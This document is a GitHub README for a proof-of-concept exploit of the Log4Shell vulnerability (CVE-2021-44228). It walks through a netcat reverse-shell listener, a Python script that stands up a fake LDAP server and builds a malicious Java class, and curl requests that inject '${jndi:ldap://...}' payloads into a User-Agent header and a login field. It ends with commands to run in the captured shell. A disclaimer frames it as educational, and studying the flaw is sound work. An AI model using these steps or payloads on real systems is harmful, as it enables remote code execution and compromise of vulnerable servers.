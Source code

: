 # log4j-shell-poc

Cribbed from the great https://github.com/kozmer/log4j-shell-poc !!  

![image](https://user-images.githubusercontent.com/4404271/157152474-b3696c41-473e-47b3-9cb8-2b949cecb382.png)

![log4j-shell-poc](https://user-images.githubusercontent.com/4404271/157141049-9ce9dc50-5d8e-4794-84ca-7148825401e4.gif)


A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

#### Usage :

You need 4 terminals, or 3 terminals and a web browser!  
They are as follows:  

1) attacker terminal 1 of 3 (wow!): reverse shell cc reciever
2) attacker terminal 2 of 3: ldap listener enabler man in the middle jumper
3) attacker terminal 3 of 3: just a terminal to do a curl or use a web browser
4) victim terminal 1 of 1: run java app as docker container

Step 1) In terminal 1, Start  netcat to accept reverse shell connection:  
```py
nc -lvnp 9001
```

Step 2) In terminal 2, Launch the ldap listener jumper:  
**Note:** Must download jdk-8u202-linux-x64.tar.gz and extract to jdk1.8.0_202  

--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Now run it like this:

```bash
pip install -r requirements.txt
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
This script will setup the HTTP server (not sure what the http is for, but whatevs) and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.  

Step 3) Our vulnerable application  
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Step 4) Attack!  

```c
curl http://127.0.0.1:8080 -v  | grep session  
<snip>  
< HTTP/1.1 200 OK  
< Server: Apache-Coyote/1.1  
< Set-Cookie: JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600; Path=/; HttpOnly  
< Content-Type: text/html;charset=ISO-8859-1  
<snip>  
curl -v -A "\${jndi:ldap://localhost:1389/a}" -X POST -d uname="\${jndi:ldap://localhost:1389/a}" --cookie JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600 http://127.0.0.1:8080/login  
<snip>  
>  
* upload completely sent off: 37 out of 37 bytes  
```  

Step 5) Profit!!  

In terminal 1, type 'env' or 'whoami' and have a biscotti ... you earned it!  



Once it is running, you can access it on localhost:8080

Getting the Java version.
--------------------------------------
--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Kozmer did it with java-8u20 but Oracle seems to have scrubbed this off their download page, but they still had java-8u202 and that seemed fine. I updated the python script to use that path in a few place, and voila. If you can't get it from my dropbox, Oracle thankfully provides an archive for all previous java versions:  
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).  
Scroll down to `8u20` and download the tar.gz for amd64, and tar -xvfz in your log4j-shell-poc folder.

**Note:** Oracle makes you  make an account to be able to download the package :-)  

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.  
